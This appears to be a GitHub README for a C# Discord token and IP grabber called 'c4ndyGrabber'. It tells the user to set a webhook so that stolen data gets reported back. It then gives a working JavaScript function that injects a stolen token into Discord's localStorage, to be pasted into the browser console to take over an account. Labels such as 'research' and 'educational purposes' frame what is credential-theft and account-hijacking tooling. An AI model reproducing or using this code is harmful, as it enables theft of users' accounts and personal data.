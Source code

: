 # c4ndyGrabber
# FOR RESEARCH PURPOSES ONLY!
C# Token and IP grabber

Remember to change `webhook` otherwise the report wont be able to come.

### Login with token JS function

```
function login(token) { setInterval(() => { document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"` }, 50); setTimeout(() => { location.reload(); }, 2500); }

login("token")
```

> Paste it into console at login discord page

*Made only for educational purposes*

Forked with interest by talked
